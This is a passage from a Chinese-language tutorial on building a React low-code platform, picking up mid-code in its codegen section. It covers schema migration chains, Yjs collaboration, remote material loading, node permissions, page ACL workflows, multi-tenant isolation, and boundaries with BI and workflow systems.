    .map(([k, v]) => ` ${k}=${attrValue(v)}`).join('');
  // bindings 出码成"运行时读变量池"的表达式：变量池实现换成 zustand selector 皆可
  const bindAttrs = Object.entries(node.bindings ?? {})
    .map(([k, expr]) => ` ${k}={readExpr(${JSON.stringify(expr)})}`).join('');
  if (!node.children?.length) {
    return `${indent}<${node.type}${propAttrs}${bindAttrs}${styleAttr} />`;
  }
  const inner = node.children.map((c) => nodeToJsx(c, indent + '  ')).join('\n');
  return `${indent}<${node.type}${propAttrs}${bindAttrs}${styleAttr}>\n${inner}\n${indent}</${node.type}>`;
}

// nodeToJsx(schema.nodes[0], '') 输出形如：
// <grid style={{"display":"flex"}}>
//   <input value={readExpr("$page.keyword")} placeholder="搜索用户" />
// </grid>
```

注意出码并没有消灭表达式引擎——`readExpr` 仍要在运行时求值（除非进一步把表达式也编译成函数，成本陡增）。出码消灭的是"schema → 组件树"的动态解释与引擎全量在场：生成的项目按需 import 物料组件，tree-shaking 生效，断点直接落在生成代码上。

**怎么做（三）架构对比与决策**。

| 维度 | 运行时解释（amis 路线） | 出码（编译成 React 源码） |
|---|---|---|
| 发布链路 | 存 schema 即生效，秒级 | schema → 出码 → prettier → 构建 → 部署，分钟级起步 |
| 运行性能 | 引擎全量在场，解释开销恒定存在 | 按页面裁剪物料，包体小，无解释层 |
| 调试体验 | 栈深、帧都在引擎内部；问题要靠引擎的调试工具（amis 有 debug 面板） | 生成代码即源码，断点/Profiler 直接可用 |
| 引擎升级 | 引擎升级全站页面即时受益（协议兼容前提下） | 已出码页面**不会**随引擎升级，要靠重新生成 + 人工合并 |
| 动态性 | 运行时改 schema 立刻生效（预览、A/B、动态下发） | 一切变更走流水线 |
| 交付形态 | 页面离不开平台运行时 | 可交付源码给甲方二次开发，脱离平台生命周期 |

决策口径：页面**数量多、变更频繁、生命周期归属平台**（营销活动页、内部中后台）→ 运行时解释；页面**数量少、要求极致性能、要交付给客户团队继续演进**（行业软件的定制页、私有化交付的标准页）→ 出码。两者也可串联：平台内孵化用解释，成熟页面"一键出码"固化——出码按钮本身就是把 schema 走一遍 codegen 并发起构建。

**常见坑（症状→根因→修法）**：症状——出码后的项目三天两头编译报错。根因——出码器与物料协议没有同步演进（协议加了新属性，codeGen 的打印器没接住，生成了非法 JSX）。修法——把"出码产物可编译"做成 CI 硬门槛：每次协议/物料变更自动跑全量出码 + `tsc --noEmit` + 构建，出码器与协议在同一个 monorepo 里同版本发布。

#### 路线 9：Schema 版本迁移——version 字段 + migration 链

**是什么**：协议根节点带 `version` 数字；每当前端协议演进（加字段、改结构），就追加一个"从 vN 到 vN+1"的纯函数；渲染器入口把任意历史版本的 schema 逐级升到当前版本再渲染。这串函数就是 migration 链。

**为什么需要**：低代码平台的 schema 存在数据库里、跨年累积。平台升级改了协议（比如路线 1 里 events 从"单动作"改成"动作链"），所有存量 schema 还是旧结构——渲染器如果直接按新协议解释旧 JSON，轻则丢配置、重则抛错白屏（第 9 章速查表的"旧 schema 页面白屏"）。版本迁移把"协议演进"与"数据演进"解耦：代码往前走，数据跟着函数链走。

**怎么做**：迁移函数链的完整实现与一次真实演进示例。

```ts
// schema/migrate.ts
import type { PageSchema } from './types';

type Migration = (schema: any) => any;

const LATEST_VERSION = 3;

// key = 起始版本号，函数负责把它升到下一版
const migrations: Record<number, Migration> = {
  // v1 → v2：events 从“单动作字符串”升级为“动作链数组”
  1: (s) => ({
    ...s,
    version: 2,
    nodes: s.nodes.map(function upgradeEvents(node: any): any {
      const events = node.events?.map((e: any) => ({
        event: e.event,
        actions: e.action ? [{ type: 'openModal', config: { modalId: e.action } }] : [],
      }));
      const next = { ...node, ...(events ? { events } : {}) };
      if (node.children) next.children = node.children.map(upgradeEvents);
      return next;
    }),
  }),
  // v2 → v3：style 的 kebab-case 字符串间距升级为驼峰数字（'margin-top': '10px' → marginTop: 10）
  2: (s) => ({
    ...s,
    version: 3,
    nodes: s.nodes.map(function upgradeStyle(node: any): any {
      let style = node.style;
      if (style && typeof style['margin-top'] === 'string' && style['margin-top'].endsWith('px')) {
        style = { ...style };
        style.marginTop = Number(style['margin-top'].slice(0, -2)); // '10px' → 10
        delete style['margin-top'];
      }
      const next = { ...node, ...(style ? { style } : {}) };
      if (node.children) next.children = node.children.map(upgradeStyle);
      return next;
    }),
  }),
};

export function migrateSchema(input: unknown): PageSchema {
  let s = structuredClone(input);            // 铁律一：绝不原地修改入参（迁移失败时原数据必须完好）
  let v = typeof s.version === 'number' ? s.version : 1;
  while (v < LATEST_VERSION) {
    const step = migrations[v];
    if (!step) throw new Error(`协议版本 ${v} 缺少迁移函数，无法升级到 ${LATEST_VERSION}`);
    s = step(s);
    v = s.version;                            // 每个迁移自己负责写入新版本号，链上不会错位
  }
  return s as PageSchema;
}
```

配套的 v1 存量数据与迁移后的 v3 结果：

```json
{
  "version": 1,
  "state": { "pageVariables": [], "globalVariables": [] },
  "dataSources": [],
  "nodes": [
    {
      "id": "n1", "type": "button",
      "props": { "text": "提交" },
      "style": { "margin-top": "10px" },
      "events": [{ "event": "onClick", "action": "confirmModal" }]
    }
  ]
}
```

```json
{
  "version": 3,
  "state": { "pageVariables": [], "globalVariables": [] },
  "dataSources": [],
  "nodes": [
    {
      "id": "n1", "type": "button",
      "props": { "text": "提交" },
      "style": { "marginTop": 10 },
      "events": [{ "event": "onClick", "actions": [
        { "type": "openModal", "config": { "modalId": "confirmModal" } }
      ] }]
    }
  ]
}
```

工程纪律五条，每条都有血泪背景：其一，**第一天就带 version**——没有版本号的存量数据只能"猜"（猜错就毁数据），`migrateSchema` 里 `typeof s.version !== 'number'` 时按 v1 处理是补救不是方案。其二，**保存时永远写 LATEST**——迁移只发生在"读取旧数据"时，编辑器一保存就固化成新版本，数据自然向新版本收敛。其三，**未知字段原样保留**——迁移函数里对没见过的字段（包括 `x-*` 扩展）只透传不删除，否则迁移本身就是数据损坏源。其四，**每个迁移配快照测试**——用真实存量页面做 fixture（`v1-fixture.json` → 期望 `v3-expected.json`），没有测试的迁移链等于定时炸弹。其五，**迁移失败要有兜底 UI**——渲染器入口 `try { migrateSchema } catch` 后降级展示"该页面由旧版本创建，暂时无法打开"并上报，绝不能白屏（错误边界兜底，见第 9 章）。

**常见坑（症状→根因→修法）**：症状——某老页面迁移后"能用但行为不对"（按钮点不开弹窗）。根因——迁移函数把语义映射错了（v1 的 `action: 'confirmModal'` 其实有两种含义：弹窗 id 或"提交表单"指令，迁移一刀切当成了弹窗）。修法——凡是"旧值有歧义"的迁移，不要静默映射：迁移成最接近的新结构 + 在节点上打 `x-migrated-from: 'v1-action'` 标记 + 打开该页面时提示用户复核——**迁移可以降级，不能撒谎**。

#### 路线 10：选修——Yjs 协同与物料远程加载

**选修一：协同编辑（Yjs CRDT 概念）**。多人同时编辑同一个页面 schema 是低代码平台的进阶能力，Yjs 是当前事实标准的底层库。五个概念先建立：

- **CRDT（无冲突复制数据类型）**：多个客户端各自改动，不需要中央锁与仲裁，最终自动收敛到同一状态——这是协同编辑"不互相覆盖"的数学基础。相对的是 OT（操作变换，需要服务器参与变换，Google Docs 路线），前端独立项目用 CRDT 成本低得多。
- **Y.Doc 与共享类型**：`Y.Map`/`Y.Array`/`Y.Text` 是带 CRDT 语义的容器。直觉：把"每个画布节点"做成一个 `Y.Map`，把"某容器的 children"做成一个 `Y.Array`，树结构天然映射。
- **Update 与传输无关**：本地改动编码成二进制 update（`Y.encodeStateAsUpdate`），任何通道都能传（WebSocket、甚至塞进评论系统）；收到远端 update 就 `Y.applyUpdate`。Provider（`y-websocket`/`y-webrtc`）只是现成的通道实现。
- **Awareness（感知）**：光标、选中的节点、在线名单这类"瞬时状态"不进文档（不进 undo、不持久化），走 awareness 广播——低代码里用它同步"协作者正在编辑哪个节点"。
- **Undo 的边界**：`Y.UndoManager` 只撤销自己的操作（别人的操作不会被你 Ctrl+Z 掉），这是协同编辑器与单人编辑器 undo 的本质差异。

```ts
// collab/pageDoc.ts —— 最小协同骨架
import * as Y from 'yjs';
import { WebsocketProvider } from 'y-websocket';

const doc = new Y.Doc();
const nodesMap = doc.getMap<Y.Map<unknown>>('nodes'); // 节点按 id 寻址：并发改不同节点零冲突
const provider = new WebsocketProvider('wss://collab.example', 'page-42', doc);

// 本地插入节点：事务保证这组变更在 CRDT 里是一条原子记录
doc.transact(() => {
  const node = new Y.Map<unknown>();
  node.set('id', 'n9');
  node.set('type', 'button');
  node.set('text', '提交');
  nodesMap.set('n9', node);
});

// 远端/本地变更统一驱动本地投影：Y.Map → 普通对象 → zustand → 画布重渲染
nodesMap.observe(() => {
  syncToEditorStore(nodesMap.toJSON());
});

// awareness：广播“我在编辑 n9”
provider.awareness.setLocalStateField('editing', { nodeId: 'n9', userName: '张三' });
```

集成姿势的正反例：**反例**是把整份 schema 序列化成字符串塞进 `Y.Text`——两人同时保存时整串合并，diff 粒度是字符，树结构会被合并坏。**正例**是结构化建模（节点 = `Y.Map`，children 顺序 = `Y.Array`），CRDT 在结构层面解决并发，两人同时往同一容器拖组件时两个都保留、顺序由算法决定。协同进一步展开（光标相对位置、离线补发、权限）见 [react-高阶场景全景图.md](../react-高阶场景全景图/README.md) 的协同族群。

**选修二：物料远程加载（模块联邦 vs 动态 import）**。平台要"不停机上新物料"——物料包独立构建、独立发布、平台运行时拉取注册。

动态 import 路线（工具链无关，ESM 标准）：

```ts
// materials/remoteLoad.ts
const materialRegistry = /* 宿主的全局注册表 */ null as any;

export async function loadRemoteMaterial(cdnBase: string, pkg: string, version: string) {
  // 物料包构建时把 react/react-dom 声明为 external（不打进产物），避免双 React 实例
  const url = `${cdnBase}/${pkg}@${version}/index.js`;
  const mod = await import(/* @vite-ignore */ url); // @vite-ignore：告诉打包器这是纯运行时地址
  mod.setup(materialRegistry); // 物料包入口约定：setup(registry) 注册组件 + 元信息 + setters 声明
}
```

模块联邦（Module Federation，webpack 5 / rspack 系）路线：构建期声明 `exposes`（物料包暴露哪些模块）与 `shared`（react 单例共享、版本协商），宿主 `remoteName/module` 形式 import，运行时自动解决"两边 React 必须同一个实例"的问题。对比：

| 维度 | 动态 import + external | 模块联邦 |
|---|---|---|
| 工具链 | 任何支持 ESM 的构建（版本敏感度低） | 绑定支持 MF 的构建链（webpack/rspack 系） |
| 共享依赖 | 手工保证（external + import map / 宿主全局注入），配错就是双 React（症状：invalid hook call） | 声明式 shared + 运行时协商，几乎零心智负担 |
| 远端不可用 | 一个物料挂就挂它自己（import 失败可 catch 降级占位） | shared 协商失败/远端宕机会在加载期抛错，需要 fallback 配置 |
| 版本管理 | URL 即版本（`@1.2.0`），回滚 = 换 URL | 版本在构建配置里，回滚要重发或依赖运行时版本表 |
| 适合 | 物料来自多团队/多仓库、CDN 分发 | 单一构建体系内（微前端同源技术栈）的宿主-物料共享 |

无论哪条路线，两条铁律：**React 必须单例**（双实例的症状就是 React 报 invalid hook call，页面崩），**物料加载失败必须可降级**（画布上渲染"物料未加载"占位节点而不是让整页挂掉——与第 9 章"未知 type 兜底"同一条原则）。

### 难点与坑

- ⚠️ **iframe 画布的事件与选中态同步（坐标换算、postMessage 协议设计）**

  症状有三连，逐个拆。症状一：画布里点组件，右侧属性面板不切换。根因：画布 iframe 里的 click 事件不会冒泡到父页面（跨 document），宿主根本不知道发生了点击。修法：画布运行时给每个节点挂 `data-node-id`，iframe 内监听 click 做"从事件目标向上找 id"的命中测试，命中后 `postMessage({kind:'selected', nodeId})` 上报（路线 2 的画布侧代码）；宿主校验 `e.source` 后写入选中 store。症状二：选中框位置漂移——画布缩放 75% 时选中框偏右下，缩放越小偏得越多。根因：`transform: scale` 默认 `transform-origin: center`，坐标映射多了一个随外框尺寸变化的常数项，路线 2 的线性换算公式不再成立；或者换算用了缓存的旧外框位置（面板开合后外框移动了）。修法：外框容器固定 `transform-origin: '0 0'`，且每次换算实时 `getBoundingClientRect`；画布滚动/ResizeObserver 变化时上报 `viewport`，覆盖层跟随。症状三：从物料面板拖到画布上，指示线不动、松手没反应。根因：pointer 事件不穿透 iframe，宿主的 dragover 在指针进入 iframe 后停更。修法：拖拽期间 iframe `pointer-events: none`，宿主持续把指针换算成内部坐标发给画布，画布做命中测试画指示线，drop 后回报落点由宿主改 schema。

- ⚠️ **事件链死循环（A 触发 B、B 触发 A）→ 动作执行深度上限**

  症状：用户点一次按钮，页面永久冻结（无报错）或瞬间抛 `RangeError: Maximum call stack size exceeded`；Network 面板同一请求刷屏；标签页 CPU 占满只能关闭。根因：协议允许 `emitEvent` 跨节点触发事件，schema 里形成环（路线 6 的 ping-pong 复现：`btn.onClick → card.ping → btn.pong → card.ping → …`）；同步实现栈溢出，async 实现微任务队列永不排空、渲染帧饿死——后者的无声冻结比崩溃更难排查。修法三件套：引擎递归入口携带 `depth`，emit/变量监听触发的新分发 depth+1，超过 `MAX_ACTION_DEPTH`（如 32）抛 `CycleGuardError` 并 toast 链路信息；保存时对字面量可见的环做 lint 提示；两者互补（静态图抓手误、深度上限兜底动态环），理由与边界路线 6 已详述。

- ⚠️ **协议无版本管理，旧页面打不开 → 一开始就带 version**

  症状：平台发布一版后，上周搭好的活动页打开白屏；控制台是 `Cannot read properties of undefined (reading 'children')` 之类的协议错位报错。根因：渲染器按新协议解释旧结构（新代码读 `events[].actions`，旧数据只有 `events[].action`），`undefined.actions` 解构/遍历即抛错，React 组件树卸载成白屏。修法分两层：根治层——协议第一天带 `version`，维护 migration 链（路线 9），渲染入口先迁移再渲染；兜底层——渲染器对未知 `type`/缺字段节点渲染占位组件并上报错误，节点级 Error Boundary 防止单点异常放倒整页。两层都要：前者治数据，后者治还没来得及迁移的空窗期。

### 对标开源

amis（渲染协议最全，必读）→ 阿里 lowcode-engine（编辑器工程化标准 + 《中后台搭建协议规范》）→ Appsmith / ToolJet（开源全栈低代码）

对标顺序即阅读顺序，三站各有分工。**amis**：研究它的 schema 词汇量与运行时架构——`type` 如何映射到渲染器（`packages/amis-core` 的 factories/Renderer 注册机制）、表达式 `${}` 的上下文注入、`onEvent` 与动作系统（动作名、成功/失败分支、串行语义）。本章的 events/bindings 设计做完后对照 amis 的动作清单查漏，你会发现"条件分支、循环、并行"都是动作系统的自然扩展。**lowcode-engine**：研究编辑器工程化——面板骨架（skeleton）、设计器（designer，拖拽与投放位置计算）、setter 体系与《中后台搭建协议规范》（它的协议规范文档是中文世界最系统的搭建协议参考，version 字段与规范治理方式值得照抄）。本章的 EventSetter、iframe 画布、协议 version 都能找到它的成熟对照实现。**Appsmith / ToolJet**：研究"全栈"边界——它们把数据源（数据库直连/REST）、权限、自定义 JS 沙箱、部署打成完整产品，重点看它们如何划定"用户脚本能做什么"（对照路线 7 的信任分层）与数据源抽象（对照第 4 章的 `DataSource` 接口）。

✅ **产出**：mini 低代码平台——10+ 物料、拖拽搭建、属性/样式/事件配置、变量与接口绑定、预览发布、schema 导入导出与版本迁移。

验收清单逐项可打勾时本章才算完成：

1. 物料 10+ 种，覆盖容器（grid/card）、表单（input/select）、展示（text/image/cardList）、反馈（modal/toast 触发器）。
2. 从物料面板拖入 iframe 画布，嵌套容器落点正确（路线 2 的指针转发 + 命中测试全链路）。
3. 属性面板：普通属性用第 3 章 Setter；`bindings` 用 ExpressionSetter（含语法校验与实时预览）；`events` 用 EventSetter（动作链增删排序）。
4. 变量系统：改一个页面变量，所有绑定它的组件更新，Profiler 里只有这些组件重渲染（路线 5 推模型生效）。
5. 事件链：点击按钮 → 调接口 → 结果写入变量 → 卡片列表刷新，全程动作串行；手工构造 ping-pong 死循环 schema，深度上限正确熔断并提示。
6. runJs 动作在 quickjs（或 iframe sandbox）沙箱里执行：能读注入的变量快照、拿不到 `document.cookie`（用路线 7 的逃逸代码验证防御生效）。
7. schema 导出 → 改 `version` 为 1 → 再导入，migration 链把它升回最新且数据无损（快照测试守护）。
8. 预览与"发布"：预览页 = 纯渲染器 + schema（无编辑器代码）；发布 = schema 存库 + 渲染页加载。

### 补充：权限与多租户——从"单人搭建"到"多人多组织使用"的协议切入点

**是什么**：前 10 条路线默认一个假设——平台上只有你一个人。真实平台上线第一天就会被问两个问题："谁能改这个页面？"（权限，人的维度）和"A 公司搭的页面/物料，B 公司能不能看到？"（多租户，组织的维度）。本节在路线 1 的协议上补这两个维度的**挂点设计**。实现级的完整代码不在本节展开：运行态权限位与可见性过滤的完整实现见《项目五复刻手册》M9；权限体系全景（路由级/按钮级/字段级/行级、`usePermission`、`<Can I a>` 三件套）见 [react-高阶场景-第二辑](../react-高阶场景-第二辑/19-8-细粒度权限控制.md) 第 8 章；租户主题与 Design Token 见其第 9 章——本节只讲低代码平台特有的部分：权限挂在协议的哪一层、多租户隔离切在哪几刀。

**为什么在大纲层单独讲**：权限与多租户最贵的设计错误不是"没做"，而是**挂错层**——把权限码写死在物料组件内部（换一套权限模型就要改所有物料）、把租户隔离只做在 URL 上（换个 id 就能看别家页面）。挂点必须在协议与渲染器/存储的交界处定死，它们是"横切"进路线 1–9 的，补丁式后加必然散落。

**切入点一：运行态权限——节点挂权限码，渲染器统一过滤**。产物页面面对的是"看页面的人"，粒度到节点：某张卡片只有管理员可见、某个按钮只有运营能点。协议挂点在 `SchemaNode` 上加一个 `permission` 字段，渲染器在递归入口统一判定——**不在物料内部判定**，理由与"未知 type 渲染占位组件"相同：横切逻辑收敛到渲染器一层，物料保持纯展示。

```ts
// schema/permission.ts —— 节点级权限挂点（渲染态）
export interface NodePermission {
  /** 任一命中即可见（OR 语义）；不写 = 任何人可见 */
  visibleAny?: string[];        // 权限码，如 ['page:user:edit']
  /** 全部命中才可见（AND 语义），与 visibleAny 同时出现时取交集 */
  visibleAll?: string[];
  /** 可见但禁用：比"隐藏"温和的降级，按钮类组件常用 */
  disabledWithout?: string[];   // 缺少其中任一权限码则置 disabled
}

// SchemaNode 增量（其余字段见路线 1）：
// permission?: NodePermission
```

```tsx
// renderer/gate.tsx —— 渲染器统一闸门（挂在递归渲染器出口处）
import type { ReactNode } from 'react';
import { usePermissionCodes } from './PermissionContext';

export function gateNode(
  permission: NodePermission | undefined,
  codes: Set<string>,
  render: () => ReactNode,
): ReactNode {
  if (!permission) return render();                       // 无声明 = 公开
  const { visibleAny, visibleAll, disabledWithout } = permission;
  if (visibleAll && ![...visibleAll].every((c) => codes.has(c))) return null;
  if (visibleAny?.length && !visibleAny.some((c) => codes.has(c))) return null;
  return render();                                        // disabled 透传给物料 props，由渲染器注入
}
```

权限码的来源与注入：渲染器不关心登录与角色体系，它只消费一个 `Set<string>`。宿主应用在渲染器外层包一个 Provider，把"当前用户权限码集合"注入进来——这样渲染器保持与鉴权体系解耦（测试时塞一个全量 Set 就能看全所有节点）：

```tsx
// renderer/PermissionContext.tsx —— 权限码注入（渲染器对鉴权体系一无所知）
import { createContext, useContext, useMemo, type ReactNode } from 'react';

const PermissionContext = createContext<Set<string>>(new Set());

export function PermissionProvider({ codes, children }: {
  codes: string[];
  children: ReactNode;
}) {
  const value = useMemo(() => new Set(codes), [codes.join('\u0000')]);  // 稳定引用，避免 Provider 无谓重渲染
  return <PermissionContext.Provider value={value}>{children}</PermissionContext.Provider>;
}

export function usePermissionCodes(): Set<string> {
  return useContext(PermissionContext);
}
```

`disabledWithout` 的实现细节值得多说一句：它不是渲染器把 `disabled` 硬塞进 props（那会覆盖用户在 `props` 里自己配的值），而是渲染器在合成最终 props 时把 `disabled: true` 以**覆盖优先级最低**的方式合并——用户显式配置了 `disabled: false` 且无权限时，以权限为准（安全优先于配置）；用户配置 `disabled: true` 且有权限时，保持禁用。合并规则写错方向，就会出现"配了禁用的按钮因为用户有权限反而能点"的事故。

两条铁律。其一，**前端过滤只是体验优化，不是安全边界**——节点被过滤了，但 `dataSource` 声明的接口照发不误，数据照样进了浏览器 Network 面板；真正的权限必须在接口层校验，前端 `permission` 只负责"别让没权限的人看到他不该看的按钮"。其二，**编辑器拿到的必须是未过滤 schema**。症状：作者刚给卡片配了 `visibleAny: ['admin']`，回到画布发现卡片"消失"了，还以为是 bug。根因：编辑器画布复用了渲染器的闸门。修法：闸门只挂在"发布态渲染器"入口，编辑器画布走另一条不带闸门的渲染路径，最多在画布上给无权节点盖一个"仅管理员可见"的角标——**编辑态与运行态是两套权限模型，不要共用一个开关**。

**切入点二：编辑态权限——页面 ACL 与发布流**。编辑页面的人的权限粒度到页面（或目录）：谁是 owner、谁能编辑、谁能发布。这块完全落在平台的元数据层（页面表），不进页面 schema 本体——schema 是"产物内容"，ACL 是"产物的管理属性"，混在一起会导致导出页面时把内部权限信息一并带走。挂点设计：

```ts
// platform/pageAcl.ts —— 页面级编辑权限（存于页面元数据，不进 PageSchema）
export interface PageAcl {
  pageId: string;
  owner: string;                 // 唯一，可转让；删除页面/彻底废弃只有 owner 能做
  editors: string[];             // 可编辑草稿、可发起发布
  viewers: string[];             // 只读（评审人：能看不能改）
}

/** 页面生命周期：编辑权限真正管的是"状态迁移"而不是"按钮" */
export type PageStatus =
  | 'draft'       // editors 可写
  | 'reviewing'   // 已发起评审：锁定，editors 只读（防止评审的版本和发布的版本不一致）
  | 'published'   // 已发布：再改 = 基于 published 拉新 draft（发布副本，不是原地改）
  | 'obsolete';   // 已下线：只读 + 可被 owner 删除

/** 合法迁移表：每条迁移声明"谁能做"——'owner' | 'editor' | 'reviewer' 三种角色位 */
export type RoleName = 'owner' | 'editor' | 'reviewer';

export const TRANSITIONS: Record<PageStatus, { to: PageStatus; by: RoleName }[]> = {
  draft:     [{ to: 'reviewing', by: 'editor' }, { to: 'obsolete', by: 'owner' }],
  reviewing: [{ to: 'published', by: 'reviewer' },   // 评审人通过 → 发布
              { to: 'draft', by: 'reviewer' }],      // 驳回 → 回到草稿
  published: [{ to: 'obsolete', by: 'owner' }],
  obsolete:  [],
};

/** 角色解析：PageAcl 的三个数组 → 某账号是什么角色（一个人可兼多角色，按最高权限算） */
export function rolesOf(acl: PageAcl, account: string): RoleName[] {
  const roles: RoleName[] = [];
  if (acl.owner === account) roles.push('owner');
  if (acl.editors.includes(account)) roles.push('editor');
  if (acl.viewers.includes(account)) roles.push('reviewer');
  return roles;
}

export function canTransition(
  acl: PageAcl, account: string, from: PageStatus, to: PageStatus,
): boolean {
  const roles = new Set(rolesOf(acl, account));
  return TRANSITIONS[from].some((t) => t.to === to && roles.has(t.by));
}
```

发布副本的语义值得单独记：`published → draft` 不在迁移表里（已发布页面不能原地改），"再改"永远是"基于 published 的版本拉一个新 draft"——published 那份继续对外服务，直到新 draft 走完评审再次发布替换。这样"线上页面被改了一半"在结构上不可能发生，也让每次发布天然成为一个可回滚的版本点（与 05 复刻手册 M7 的版本快照对接）。

把权限建模成**状态迁移规则**（谁能把页面从 draft 推到 reviewing）而不是"哪些按钮置灰"，是因为按钮级控制绕得过（直接调 API），状态机绕不过——服务端只接受合法迁移。两个常见坑：坑一，两人同时编辑同一页面互相覆盖。低配修法是"保存时比对 version，不一致弹冲突提示"（乐观锁）；要实时协作才是路线 10 协同编辑的领地，两者成本差一个量级，先乐观锁。坑二，"reviewing 状态没锁"导致评审期间有人偷偷改完直接发布，发布了和评审通过的不是一个版本——状态机里 `reviewing` 必须对 editors 只读，这是它的存在理由。

**切入点三：多租户——四个隔离位**。多租户不是"加一个 tenantId 字段"单点动作，而是沿数据流切四刀，任何一刀漏切都是越权事故：

| 隔离位 | 切法 | 漏切的症状 |
|---|---|---|
| schema 存储 | 表带 `tenantId`，一切查询强制带租户过滤（DAO 层统一注入，禁止业务代码手拼查询） | 换个页面 id 就能打开别家的页面 |
| 物料注册表 | 注册名加命名空间：`acme.chart.pie` vs `platform.chart.pie`；平台物料与租户私有物料的可见性在注册元信息里声明 | A 家定制物料出现在 B 家的物料面板里，拖出来渲染报错或更糟——渲染成功但样式泄漏 |
| 变量池 | `$tenant` 与 `$global` 分开注入：登录用户名是 `$global` 的，公司名称/租户套餐等级是 `$tenant` 的 | 表达式写 `$global.companyName` 在单租户环境"恰好正确"，上多租户后所有页面串号 |
| 主题 | 租户 token 随 `$tenant` 注入，见第二辑第 9 章 | 页面内容隔离了但皮肤串号，法务风险（品牌混淆） |

```ts
// materials/namespace.ts —— 物料注册的租户隔离
export interface MaterialMeta {
  name: string;                  // 完整名：'{namespace}.{name}'
  namespace: 'platform' | `tenant:${string}`;   // 平台物料 vs 租户私有
  visibleTenants?: string[];     // platform 物料可选：对哪些租户可见（缺省=全部）
}

export function resolveMaterial(meta: MaterialMeta, tenantId: string): boolean {
  if (meta.namespace === 'platform') {
    return !meta.visibleTenants || meta.visibleTenants.includes(tenantId);
  }
  return meta.namespace === `tenant:${tenantId}`;   // 私有物料只对本租户可见
}
```

多租户还有一个与路线 9 的交叉点必须提前想：**migration 链必须全局唯一，不能按租户分叉**。症状：大客户要求"我们停在旧版协议"，平台好心给该租户单独维护了一条迁移路径，半年后这条分叉没人记得，一次全量迁移把该客户所有页面打坏。修法：协议版本是平台全局的，客户差异用"字段可选 + 节点级降级渲染"消化（未知 type 占位组件），永远不要为个别租户分叉迁移链。

**决策表——什么时候需要哪个**：

| 平台形态 | 运行态权限 | 编辑态 ACL | 多租户 |
|---|---|---|---|
| 团队内部工具（一个部门用） | 可选（有管理后台诉求再加） | 不需要（信任所有开发者） | 不需要 |
| 公司级平台（多部门共建） | 需要（节点码 + 接口校验） | 需要（页面 owner + 发布审批） | 通常不需要（同一家公司） |
| 对外 SaaS / 私有化交付 | 必需 | 必需（含租户管理员角色） | 必需（四刀全切） |

**落地顺序**（不要并行铺开，按依赖排）：

1. 先做运行态节点权限（协议挂点 + 渲染器闸门 + Provider）——它是三个切入点里最小闭环，半天能验收。
2. 再做多租户的存储隔离（DAO 层强制租户过滤）——数据层先切干净，后面每一层才能放心引用"当前租户"上下文。
3. 然后是物料命名空间与变量池的 `$tenant` 注入——有了第 2 步的租户上下文，这两处是纯前端改造。
4. 最后做编辑态 ACL 与发布流——它涉及服务端状态机与评审流程，依赖产品侧把评审角色定下来，放最后也给协作留了缓冲。

**验收清单**：给某节点挂 `visibleAny` 后，无权限账号的预览页看不到它，但直接请求对应接口被后端拒绝（前端过滤≠安全）；作者在画布里始终能看到自己刚配了权限的节点（编辑态不过滤）；A 租户账号的物料面板看不到 `tenant:B` 前缀的物料；把任意页面 id 换成别家的 id 直接访问，返回 404 而不是内容。

### 补充：与 BI 报表、流程编排的边界——什么不该塞进低代码平台

**是什么**：低代码平台跑顺之后，需求会自然越界："这个列表页能不能像 BI 一样上卷下钻？""这个提交按钮能不能发起一个三级审批流？"本节回答两件事：怎么判断一个越界需求该不该用低代码平台做；该不该的答案都是"不"时，两个系统怎么与低代码平台**组合**而不是互相吞并。流程编排器本身的完整实现（节点 DSL、DAG 校验、调度器）见 [react-高阶场景-第二辑](../react-高阶场景-第二辑/03-2-工作流编排器-节点图编辑器.md) 第 2 章；仪表盘见本大纲第 4 章——本节只讲边界与组合。

**为什么边界值得先讲**：三个系统都打着"配置化"的旗号（搭页面、配报表、画流程），产物都是 JSON schema，看起来"低代码平台再加几种物料就全覆盖了"。这个错觉是平台腐化的第一推动力——把 BI 明细页硬塞进低代码运行时（解释层扛不住几千行表格）、把审批流硬画进事件动作链（流程真相散落在几十个页面里），都是把别的系统的内核问题搬到自己家门口再手搓一遍。判别的依据不是"能不能做"，而是下面这组结构性差异。

**三系统结构对照**（先把"内核不同"钉死）：

| 维度 | 低代码平台 | BI 报表 | 流程编排（BPM） |
|---|---|---|---|
| 产物 schema 形态 | **树**（组件树，路线 1） | **查询 + 视图**（数据集定义 + 图表映射，树只是视图的皮） | **图**（DAG/流程图，节点间有依赖与分支） |
| 运行时真相持有者 | 渲染器（schema 是唯一真相） | 数据引擎（聚合、上卷下钻在查询层发生，前端只画结果） | 流程引擎（状态机在服务端，前端只投影当前任务） |
| 一次典型交互 | 点按钮 → 动作链 → 变量更新 → 局部重渲染 | 切换维度 → 重算聚合 → 整图重绘 | 提交任务 → 引擎推进 → 下一个审批人的待办出现 |
| 状态存活周期 | 页面级（随开关页面生灭） | 查询级（随数据集缓存） | **跨人跨天**（一个流程实例可活几周） |
| 失效模式 | 页面白屏（有 Error Boundary 兜底） | 数据算错（安静且致命） | 流程卡死（业务停摆，最贵） |

最后一行是边界的本质：**状态活得越久、跨越的人越多，越需要独立的引擎持有真相**。页面状态生灭于秒级，渲染器持有没问题；流程状态存活数周、参与多人，塞进页面 schema 里等于把真相交给了最易失的层。

**判别五问**（拿到越界需求时按序问）：

1. 这个需求的产物是"一个页面"还是"一个分析结论/一个过程实例"？前者归低代码，后两者分别归 BI/BPM。
2. 数据量级与运算在哪？万行以下、增删改查为主 → 低代码数据源扛得住；十万行以上、聚合钻取为主 → BI 的查询层。
3. 交互的主语是谁？"搭页面的人配置交互" → 低代码；"看报表的人临时拖维度" → BI；"流程参与人推动状态" → BPM。
4. 状态要不要跨页面、跨人、跨天存活？要 → 独立引擎；不要 → 低代码变量池够用。
5. 改配置的频率与责任方？页面级高频改动归页面搭建者；报表口径改动归数据团队（要走数据口径评审）；流程改动归流程管理员（要考虑存量在途实例的兼容）。

五问里有任何一问答到"右边"，对应部分就应该走组合而不是吞并。

**需求速判表**（拿真实需求对号，比五问更快；判断存疑时回到五问推演）：

| 需求描述 | 归属 | 组合模式 |
|---|---|---|
| "页面里放一张销售趋势图" | 低代码 | 图表物料（不组合） |
| "整页多图联动、全局时间筛选、可下钻" | BI | 模式一：`dashboardRef` 整页嵌入 |
| "点提交后走三级审批，通过才生效" | BPM | 模式二：`startProcess` 边界动作 |
| "页面展示流程当前卡在谁那里" | BPM | 模式二：`queryTask` + 变量展示 |
| "列表数据来自数仓的统一口径统计" | BI | 模式三：数据源 `kind: 'dataset'` |
| "把 BI 的筛选条件同步给页面里的明细表" | 低代码为主 | 模式一的消息桥回写变量 |

